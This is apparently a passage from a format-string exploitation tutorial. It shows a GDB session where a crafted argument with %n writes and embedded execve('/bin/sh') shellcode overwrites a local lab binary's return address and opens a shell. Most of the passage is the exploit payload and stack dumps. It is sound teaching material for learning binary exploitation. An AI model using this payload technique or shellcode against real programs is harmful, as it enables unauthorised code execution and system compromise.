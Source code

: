 ```bash
gef➤  r $(python -c 'print "\xac\xcf\xff\xff" + "\xae\xcf\xff\xff" + "%52958u" + "%6$n" + "%12569u" + "%7$n" + "\xeb\x0b\x5b\x31\xc0\x31\xc9\x31\xd2\xb0\x0b\xcd\x80\xe8\xf0\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68"')
Starting program: /home/shogun/repos/basics-of-pwn/content/format-string/format-string $(python -c 'print "\xac\xcf\xff\xff" + "\xae\xcf\xff\xff" + "%52958u" + "%6$n" + "%12569u" + "%7$n" + "\xeb\x0b\x5b\x31\xc0\x31\xc9\x31\xd2\xb0\x0b\xcd\x80\xe8\xf0\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68"')
��������

Breakpoint 1, 0x0804921c in main ()

gef➤  x/106wx $esp - 0x100
0xffffceac:	0x0804920b	0xffffcec8	0xffffd263	0x000000c8
0xffffcebc:	0x080491d4	0x00000000	0x00000000	0xffffcfac
0xffffcecc:	0xffffcfae	0x39323525	0x25753835	0x256e2436
0xffffcedc:	0x36353231	0x37257539	0x0beb6e24	0x31c0315b
0xffffceec:	0xb0d231c9	0xe880cd0b	0xfffffff0	0x6e69622f
0xffffcefc:	0x0068732f	0x00000000	0x00000000	0x00000000
0xffffcf0c:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffcf1c:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffcf2c:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffcf3c:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffcf4c:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffcf5c:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffcf6c:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffcf7c:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffcf8c:	0x00000000	0xffffcfb0	0x00000000	0x00000000
0xffffcf9c:	0xf7ddbee5	0xf7fa8000	0xf7fa8000	0x00000000
0xffffcfac:	0xffffcee6	0x00000000	0xffffd044	0xffffd050
0xffffcfbc:	0xffffcfd4	0xf7fa8000	0x00000000	0xffffd028
0xffffcfcc:	0x00000000	0xf7ffd000	0x00000000	0xf7fa8000
0xffffcfdc:	0xf7fa8000	0x00000000	0xeafeb5a5	0xae1c93b5
0xffffcfec:	0x00000000	0x00000000	0x00000000	0x00000002
0xffffcffc:	0x080490a0	0x00000000	0xf7fe7cd4	0xf7fe2410
0xffffd00c:	0x0804c000	0x00000002	0x080490a0	0x00000000
0xffffd01c:	0x080490d6	0x080491b6	0x00000002	0xffffd044
0xffffd02c:	0x08049220	0x08049290	0xf7fe2410	0xffffd03c
0xffffd03c:	0x0000001c	0x00000002	0xffffd21e	0xffffd263
0xffffd04c:	0x00000000	0xffffd29b
gef➤  
```

The return address is at `0xffffcfac` and the shellcode is at `0xffffcee6`. Next, continue the execution.
```bash
gef➤  c
Continuing.
process 16431 is executing new program: /bin/dash
Error in re-setting breakpoint 1: No symbol table is loaded.  Use the "file" command.
Error in re-setting breakpoint 1: No symbol "main" in current context.
Error in re-setting breakpoint 1: No symbol "main" in current context.
Error in re-setting breakpoint 1: No symbol "main" in current context.
$ w
[Detaching after fork from child process 16481]
 11:18:42 up  3:02,  1 user,  load average: 0.70, 0.54, 0.37
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
shogun   tty7     :0               08:16    3:02m  9:01   4.18s xfce4-session
$
```
